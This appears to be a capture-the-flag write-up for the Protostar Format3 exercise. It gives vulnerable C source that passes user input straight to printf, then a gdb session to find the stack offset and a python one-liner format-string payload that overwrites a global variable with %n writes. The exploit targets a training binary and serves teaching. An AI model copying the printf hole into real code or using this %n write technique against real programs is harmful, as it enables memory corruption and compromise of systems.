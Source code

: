 #### Protostar Format3 

##### About
This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process. This also teaches you to carefully control what data is being written to the process memory.  
  
This level is at /opt/protostar/bin/format3

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

We can try to use '%n' to write a byte a time or two byte a time.

##### Solution
```
$ objdump -t format3 | grep target
080496f4 g     O .bss   00000004              target

$ echo 'AAAA' > /tmp/payload

$ gdb format3
......
(gdb) disas printbuffer
Dump of assembler code for function vuln:
0x08048454 <+0>:    push   %ebp
0x08048455 <+1>:    mov    %esp,%ebp
0x08048457 <+3>:    sub    $0x18,%esp
0x0804845a <+6>:    mov    0x8(%ebp),%eax
0x0804845d <+9>:    mov    %eax,(%esp)
0x08048460 <+12>:   call   0x804837c <printf@plt>
0x08048465 <+17>:   leave
0x08048466 <+18>:   ret
End of assembler dump
(gdb) b *0x08048460
Breakpoint 1 at 0x08048460: file format3/format3.c, line 10.
(gdb) r < /tmp/payload
Starting program: /opt/protostar/bin/format3 < /tmp/payload
Breakpoint 1, 0x08048460 in printbuffer (string=0xbffffb10 "AAAA\n") at format3/format3.c:10
(gdb) x/4x $esp
0xbffffae0:     0xbffffb10      0x00000000      0xbffffb10      0xb7fd7ff4
(gdb) x 0xbffffb10
0xbffffb10:     0x41414141
(gdb) p (0xbffffb10 - 0xbffffae0) / 4
$1 = 12
(gdb) quit

$ python -c 'print "\xf4\x96\x04\x08"+"\xf5\x96\x04\x08"+"\xf6\x96\x04\x08"+"%56x%12$n"+"%17x%13$n"+"%173x%14$n"' | ./format3
......
you have modified the target :)
```

##### Reference
<https://thesprawl.org/research/exploit-exercises-protostar-format/#format-3>  
<http://louisrli.github.io/blog/2012/08/29/protostar-format0/>
